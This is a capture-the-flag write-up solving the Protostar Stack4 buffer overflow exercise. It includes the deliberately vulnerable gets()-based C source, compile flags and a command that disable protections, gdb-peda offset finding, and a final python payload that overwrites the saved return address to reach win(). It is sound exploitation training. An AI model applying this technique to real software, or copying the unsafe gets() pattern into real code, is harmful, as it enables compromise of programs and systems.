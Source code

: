 ## Protostar-Stack4 Solution

### 1. Introduction

This is a poc solution for the "Stack4" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.
Note: I switched to ubuntu 14.04 from 20.04 from this chapter...

Source:
[https://web.archive.org/web/20170417130121/https://exploit-exercises.com/protostar/stack4/](https://web.archive.org/web/20170417130121/https://exploit-exercises.com/protostar/stack4/) 
 
**Hints:**
* Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 4 4.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Disassemble the main function.
3. Checking target function (win).

```nasm
$ gdb -q 4
Reading symbols from 4...done.
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048461 <+0>:	push   ebp
   0x08048462 <+1>:	mov    ebp,esp
   0x08048464 <+3>:	and    esp,0xfffffff0
   0x08048467 <+6>:	sub    esp,0x50
   0x0804846a <+9>:	lea    eax,[esp+0x10]
   0x0804846e <+13>:	mov    DWORD PTR [esp],eax
   0x08048471 <+16>:	call   0x8048310 <gets@plt>
   0x08048476 <+21>:	leave  
   0x08048477 <+22>:	ret    
End of assembler dump.

gdb-peda$ print win
$1 = {void ()} 0x804844d <win>

```

The steps for checking the offset size is explained in my previous posts. 
Basically when a function is called, the current state should be pushed into stack and when the called function ends they are **pop**ed from stack into registers again. These steps aka. x86 calling conventions are explained a bit more detailed in notes.md file. 

Instruction pointer (eip register) holds the next address to be executed.


#### 2.2 Quick Solution
 
This one is similar to stack-3 but a bit different. Let's check the offset size by using peda that we didn't use on previous solutions.

Let's create a set of characters. Copy the generated pattern then paste it to input.

```nasm
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Starting program: ./4 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd0e0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0xf7fbc000 --> 0x1a9da8 
ECX: 0xfbad2288 
EDX: 0xf7fbd8a4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x65414149 ('IAAe')
ESP: 0xffffd130 ("AJAAfAA5AAKAAgAA6AAL")
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41344141
[------------------------------------stack-------------------------------------]
0000| 0xffffd130 ("AJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd134 ("fAA5AAKAAgAA6AAL")
0008| 0xffffd138 ("AAKAAgAA6AAL")
0012| 0xffffd13c ("AgAA6AAL")
0016| 0xffffd140 ("6AAL")
0020| 0xffffd144 --> 0xffffd100 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd148 --> 0xffffd164 --> 0xcd02bd8c 
0028| 0xffffd14c --> 0x804a018 --> 0xf7e2b9e0 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41344141 in ?? ()

```

### Let's check the offset by using peda

```x86asm
gdb-peda$ i r ebp
ebp            0x65414149	0x65414149

gdb-peda$ pattern offset 0x65414149
1698775369 found at offset: 72
```

```x86asm
gdb-peda$ print $eip
$1 = (void (*)()) 0x41344141
gdb-peda$ pattern offset 0x41344141
1093943617 found at offset: 76
```

So we need 72 bytes of junk (let's use nops - \x90). Since the base pointer also stored in the stack righ after esp we need to overwrite ebp as well to control program flow and 4 bytes for ebp as well.

Here is the summary of our attempt with the pattern:

```js
"\x90" * 72       -> Offset
"BBBB"            -> ebp
address of win()  -> eip
```

```py
gdb-peda$ r <<< $(python -c "print '\x90' * 72 + 'BBBB' + '\x4d\x84\x04\x08'")
Starting program: ./4 <<< $(python -c "print '\x90' * 72 + 'BBBB' + '\x4d\x84\x04\x08'")
code flow successfully changed
Program received signal SIGSEGV, Segmentation fault.
...trim...

gdb-peda$ i r ebp
ebp            0x42424242	0x42424242
```

#### 2.3 Final PoC

```py
python -c "print '\x90' * 76 + '\x4d\x84\x04\x08'" | ./4
```
